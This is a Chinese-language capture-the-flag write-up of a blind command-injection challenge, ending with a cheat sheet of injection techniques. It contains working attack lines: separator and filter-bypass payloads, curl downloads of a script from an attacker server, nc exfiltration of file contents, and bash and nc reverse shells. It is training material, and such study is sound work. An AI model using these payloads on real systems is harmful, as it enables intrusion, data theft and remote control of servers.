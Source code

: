 ```yaml
---
Author: SuperJason
Date: 2020-12-25
---
```


## flag
n1book{6fa82809179d7f19c67259aa285a7729}

## 思路
1. 访问环境，测试命令`127.0.0.1`  
![](./images/cmd-1.png)
2. 接着测试`127.0.0.1 && ls`，这里浪费了一点时间，以为`&&`不能让`ls`命令执行，其实是因为浏览器将我们输入的`&&`转码了，导致我们的输入其实变成了`127.0.0.1+%26%26+ls`  
   **建议以后做注入题目时，直接用burpsuite，防止注入的数据被浏览器转码**  
![](./images/cmd-2.png)  
![](./images/cmd-3.png)
3. 这里还有一个问题，虽然ip ping成功，但后面的命令不一定执行了。接着用`sleep 5`进行延时注入，发现`&&`命令并不能让后面的sleep命令执行，接着测试`%0a`连接符，可以让后面的sleep命令执行
4. 开始猜测flag的位置，`flag`、`flag.php`、`flag.txt`等，没有找到明显的flag文件。由于没有命令执行的回显，如何找到flag文件并且将文件数据传出来是个问题，考虑`{flag file} | nc {your_server_ip port}`将数据传出来，但`|`和`:`符号被判定为恶意字符。  
**如果没有服务器，可以用buuctf开小号，在basic/Linux labs上启动一个内网服务器**  
5. `>`没有被过滤，可以从服务器下载恶意脚本到本地并执行。这里使用`curl {your_server_ip}/ctf.sh`，然后准备给sh文件加执行权限，却无法添加，最后怀疑当前用户在当前目录没有保存文件的权限。  
![](./images/cmd-4.png)  
![](./images/cmd-5.png)
6. 于是将`ctf.sh`保存到`tmp`目录下。添加可执行权限。  
![](./images/cmd-6.png)  
![](./images/cmd-7.png)
7. 这里其实传了两次.sh文件，第一次的文件内容为`ls  | nc {your_server_ip port}`，得到当前目录下的文件列表，发现存在`/FLAG`文件，第二次的文件内容为`cat /FLAG | nc {your_server_ip port}`，将`/FLAG`文件内容传出来。  
8. 在服务器上监听本地端口`nc -lvp 8888`，这里我的是8888。然后执行`ctf.sh`，得到回传的数据。  
![](./images/cmd-8.png)  
![](./images/cmd-9.png)

## 总结
命令执行主要是通过特殊字符让本不该执行的命令执行。常用的特殊字符有
- 转义符  
  `^`、`\`、`&`
- 连接符  
  `&&`、`||`、`%0a`、`%0d`、`;`、`$()`
- 注释符号
  `#`、`:: ` 

### 进一步的扩宽一下难度
1. cmd可以会过滤空格，可以用其他字符绕过
- %09、%0b、%0c、$IFS$9  
2. 黑名单绕过  
- 字符串拼接，`a=c;b=at;c=ag;d=fl;$a$b ${d}${c}`或`a=c;b=at;c=ag;d=fl;$a$b $d$c`为cat flag
- 字符串截取，substr
3. `nc、curl`命令的使用，`>、|`重定向符的使用
4. 常用反弹shell
- 攻击者服务器监听8888端口，nc -lvp 8888
- 受害者1 `bash -i >& /dev/tcp/{server_ip}/8888 0>&1`
- 受害者2 `nc -e /bin/sh {server_ip} 8888`
5. 将反引号内命令的输出作为输入执行
```
cat$IFS$9`ls`
```
6. 过滤bash用sh执行,base64解码，`cat flag.php`为`Y2F0IGZsYWcucGhw`
```
echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
```